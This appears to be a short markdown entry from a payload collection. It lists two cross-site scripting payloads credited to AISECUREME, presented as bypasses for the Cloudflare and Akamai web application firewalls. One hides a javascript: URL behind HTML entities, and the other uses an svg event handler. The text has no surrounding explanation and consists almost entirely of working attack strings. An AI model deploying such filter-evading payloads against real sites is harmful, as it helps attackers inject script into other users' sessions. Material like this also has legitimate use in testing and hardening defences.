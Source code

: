 ## Cloudflare XSS Bypass
By [AISECUREME](https://twitter.com/aisecureme)

```<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>```

## Akamai XSS Bypass
By [AISECUREME](https://twitter.com/aisecureme)

```“><svg/on</script>laod=alert>```
